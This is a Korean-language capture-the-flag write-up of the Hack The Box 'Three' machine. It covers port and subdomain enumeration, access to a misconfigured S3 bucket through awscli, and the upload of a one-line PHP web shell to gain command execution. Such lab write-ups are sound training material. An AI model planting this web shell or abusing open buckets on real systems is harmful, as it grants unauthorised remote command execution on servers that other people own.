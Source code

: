 ```yaml
---
title: HTB Three Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox, Gobuster, AWS, S3, awscli]
image:
    path: /assets/image_post/20240214231540.png
---
```


![](../assets/image_post/20240214231721.png)

우선 port scan 결과를 먼저 확인해보자. ssh와 http port가 기본 포트에 맞추어 열려있다.
``` bash
┌──(root㉿fb940ca6010c)-[/rfi]
└─# nmap -sC -sV 10.129.227.248
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-14 14:17 UTC
Nmap scan report for 10.129.227.248
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.33 seconds
```

이전 문제와는 조금은 다르지만 유사한 점이 있다. IP로 해당 사이트가 접근 되긴 하지만, 다른 페이지로의 이동은 되지 않는다. 할당 된 ip로 접근 시 아래와 같이 웹에 접근 된다.
![](../assets/image_post/20240214232544.png)

다만, 사이트의 기능을 눌러보면 아래와 같이 접근되지 않는 부분이 있다. 아마 `/etc/hosts`에 등록을 해주어야 하는 것 같다.
``` bash
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts
```
![](../assets/image_post/20240214232658.png)

그렇다면 사이트 url을 알아야 등록이 가능한데, 나의 경우 페이지 소스를 보며 찾았다. 굳이 페이지 소스가 아니라 CONTANT에 기재된 이메일 주소를 통해 유추해볼 수도 있다. 이메일 주소에 포함된 'thetoppers.htb'가 site url로 추정된다.
``` html
      <div class="w3-col m6 w3-large w3-margin-bottom">
        <i class="fa fa-map-marker" style="width:30px"></i> Chicago, US<br>
        <i class="fa fa-phone" style="width:30px"></i> Phone: +01 343 123 6102<br>
        <i class="fa fa-envelope" style="width:30px"> </i> Email: mail@thetoppers.htb<br>
      </div>
      <div class="w3-col m6">
```

`/etc/hosts`를 수정해도 위의 페이지는 들어가지지 않는다. 그렇다면 접근 가능한 다른 url이 있는지 파악하기 위해 gobuster를 사욜해보고자 한다. 결과는 아래와 같고 사용한 리스트 파일은 [링크](https://raw.githubusercontent.com/aels/subdirectories-discover/main/dsstorewordlist.txt)에서 다운 가능하다.
``` bash
┌──(root㉿fb940ca6010c)-[/]
└─# gobuster dir -u http://thetoppers.htb/ -w ./dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://thetoppers.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ./dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 317] [--> http://thetoppers.htb/images/]
/index.php            (Status: 200) [Size: 11952]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
```

수집된 경로를 보아 /images에 접근 가능한 듯하다. 접근 해보니 아래와 같이 Directory Listing 취약점이 존재하는 것을 알 수 있다. 
![](../assets/image_post/20240214233724.png)

다만 저 경로 외에 더 이상의 접근은 되지 않아 별 다른 정보를 획득하지는 못했다. 그렇다면 우선 남은 추가 정보는 Apache 버전 정보이다.
```
Apache/2.4.29 (Ubuntu) Server at thetoppers.htb Port 80
```

gobuster dns를 사용하여 찾아도 별다른 정보를 얻을 수 없다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# gobuster dns -d thetoppers.htb -w /usr/share/wordlists/dnsmap.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     thetoppers.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/dnsmap.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 17576 / 17577 (99.99%)
===============================================================
Finished
===============================================================
```

지금 이 부분은 다른 사람의 writeup을 참고한 부분이다. 원래 아래와 같이 vhost로 스캔하면 s3.thetoppers.htb가 수집되어야 하는데, 나의 경우 수집이 되지 않는다. 무언가 불안정한가...
``` bash
┌──(root㉿kali)-[/home/user]
└─# gobuster vhost -u http://thetoppers.htb -w subdomains-top1million-5000.txt
```
s3.thetoppers.htb에 대한 정보를 획득했다는 가정하에, 정상접근을 위해선 이전과 마찬가지로 /etc/hosts에 추가해주어야 한다.
``` bash
10.129.188.193  thetoppers.htb s3.thetoppers.htb
```

s3의 경우 AWS 버킷과 관련된 것으로 접근을 위해 awscli를 설치하자. awscli를 설치 후 aws 명령어로 해당 서버에 접속을 시도해보자. 아래와 같이 설정이 되지 않아 오류가 발생한다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 ls s3://s3.thetoppers.htb

Unable to locate credentials. You can configure credentials by running "aws configure".
```

다행히 별도의 값이 있어야 하지는 않고 아래와 같이 임의의 값을 넣어 주면 된다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws configure
AWS Access Key ID [None]: test
AWS Secret Access Key [None]: test
Default region name [None]: test
Default output format [None]: test
```

이후 다시 해보니 아래와 같이 연결이 불가하다고 뜨며 주소가 나타난다. 내가 원했던 's3.thetoppers.htb'가 아니라 조금 많이 긴 주소인 것을 보니 무언가 잘못된 듯 싶다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 ls s3://s3.thetoppers.htb

Could not connect to the endpoint URL: "https://s3.thetoppers.amazonaws.com/s3.thetoppers.htb?list-type=2&prefix=&delimiter=%2F&encoding-type=url"
```

명령어 인자를 아래와 같이 변경 후 접근 시 성공적으로 접근 된다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws aws s3 --endpoint=http://s3.thetoppers.htb ls

2024-02-15 03:33:23 thetoppers.htb
```

우선 어떤 파일들이 있는지 확인해보자. index.php와 jpg 파일 외에 별 다른 파일은 보이지 않는다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls
2024-02-15 05:38:01 thetoppers.htb

┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls thetoppers.htb
                           PRE images/
2024-02-15 05:38:01          0 .htaccess
2024-02-15 05:38:02      11952 index.php

┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls thetoppers.htb/images/
2024-02-15 05:38:01      90172 band.jpg
2024-02-15 05:38:02     282848 band2.jpg
2024-02-15 05:38:02    2208869 band3.jpg
2024-02-15 05:38:01      77206 final.jpg
2024-02-15 05:38:01      69170 mem1.jpg
2024-02-15 05:38:01      39270 mem2.jpg
2024-02-15 05:38:02      64347 mem3.jpg
```

그렇다면 awscli로 웹쉘을 업로드하여 동작시켜보고자 한다. 웹쉘의 코드는 아래와 같다.
``` bash
┌──(root㉿kali)-[/home/]
└─# cat cmd.php
<?php system($_GET['cmd']); ?>
```

아래는 기존에 존재하던 index.php를 다운로드하고, 내가 작성한 cmd.php를 갖은 경로에 업로드 하는 과정이다. `aws s3 --endpoint=http://s3.thetoppers.htb ls`로 수집한 경로 `thetoppers.htb`에 대해 아래와 같이 접근해야한다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws aws s3 --endpoint=http://s3.thetoppers.htb cp s3://thetoppers.htb/index.php ./index.php

download: s3://thetoppers.htb/index.php to ./index.php

┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb cp ./cmd.php s3://thetoppers.htb/cmd.php
upload: ./cmd.php to s3://thetoppers.htb/cmd.php
```
이제 업로드한 경로를 통해 접근해보면 아래와 같이 성공적으로 웹쉘 업로드가 됐다.
![](../assets/image_post/20240216102926.png)

문제를 풀 때 대체적으로 flag가 존재하는 파일의 이름이 flag.txt이기에 아래와 같이 find 명령어로 찾아보았고, 바로 결과가 나왔다.
![](../assets/image_post/20240216103050.png)

이제 flag 파일을 출력하면 정답을 확인할 수 있다.
![](../assets/image_post/20240216103158.png)

awscli를 처음 사용해보기에, 유익했다. 회사의 자산에 대해서도 위험 여부 판단을 할 때 사용하면 좋을 것 같다.
![](../assets/image_post/20240216103322.png)